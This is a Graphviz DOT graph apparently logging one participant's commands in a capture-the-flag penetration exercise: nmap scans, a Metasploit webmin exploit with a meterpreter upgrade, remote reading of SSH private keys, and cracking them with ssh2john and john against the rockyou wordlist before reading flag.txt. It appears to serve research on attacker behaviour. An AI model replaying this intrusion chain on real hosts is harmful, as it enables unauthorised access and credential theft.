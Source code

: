 // creating graph for user: 87
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 M0 "]
	2 [label="nmap -p- 172.18.1.5 M0 "]
	3 [label="ssh 172.18.1.5 A16 "]
	4 [label="nmap -A 172.18.1.5 M0 "]
	5 [label="msfconsole M2 "]
	7 [label="search webmin M3 "]
	8 [label="use 3 A4 "]
	9 [label="show A5 "]
	10 [label="show all A5 "]
	11 [label="show options M5 "]
	12 [label="set RHOSTS 172.18.1.5 M6 "]
	13 [label="show options M5 "]
	14 [label="exploit M8 "]
	17 [label="set LHOST 10.1.135.83 M6 "]
	18 [label="exploit M8 "]
	19 [label="search shell_to_meterpreter A3 "]
	20 [label="use 0 A4 "]
	22 [label="show options M5 "]
	23 [label="set SESSION 2 A6 "]
	24 [label="run M8 "]
	28 [label="search webmin M3 "]
	29 [label="use 3 A4 "]
	30 [label="exploit M8 "]
	36 [label="show options M5 "]
	37 [label="ssh 172.18.1.5 A16 "]
	38 [label="ls ~/.ssh A10 A16 "]
	39 [label="ssh-keygen A16 "]
	40 [label="ls A10 "]
	41 [label="ls ~/.ssh A10 A16 "]
	42 [label="cd ~/.ssh A16 "]
	43 [label="ls A10 "]
	44 [label="cat id_rsa.pub M12 "]
	45 [label="ssh eve@172.18.1.5 M16 "]
	47 [label="ssh eve@10.1.17.4 M16 "]
	48 [label="ls A10 "]
	49 [label="ls -la A10 "]
	50 [label="cd .ssh A16 "]
	51 [label="ls A10 "]
	52 [label="cat id_rsa M12 "]
	53 [label="ls A10 "]
	55 [label="ssh eve@10.1.17.4 cat ~/.ssh/id_rsa M16 "]
	56 [label="ssh eve@172.18.1.5 cat ~/.ssh/id_rsa M16 "]
	57 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' M16 "]
	58 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' > key M16 "]
	59 [label="ls A10 "]
	60 [label=".ssh2john.py A14 A16 "]
	61 [label="./ssh2john.py A14 A16 "]
	62 [label="./ssh2john.py key > crack.txt A14 A16 "]
	63 [label="cat crack.txt A1 A9 A11 A12 A17 "]
	64 [label="ls A10 "]
	66 [label="ls A10 "]
	67 [label="ls -la A10 "]
	69 [label="ls A10 "]
	70 [label="john crack.txt A14 "]
	72 [label="ls A10 "]
	74 [label="ls A10 "]
	75 [label="john crack.txt --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	76 [label="ssh eve@10.1.17.4 M16 "]
	78 [label="ls A10 "]
	80 [label="ls A10 "]
	81 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 72 [constraint=false]
	72 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 78 [constraint=false]
	78 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	rankdir=LR
}
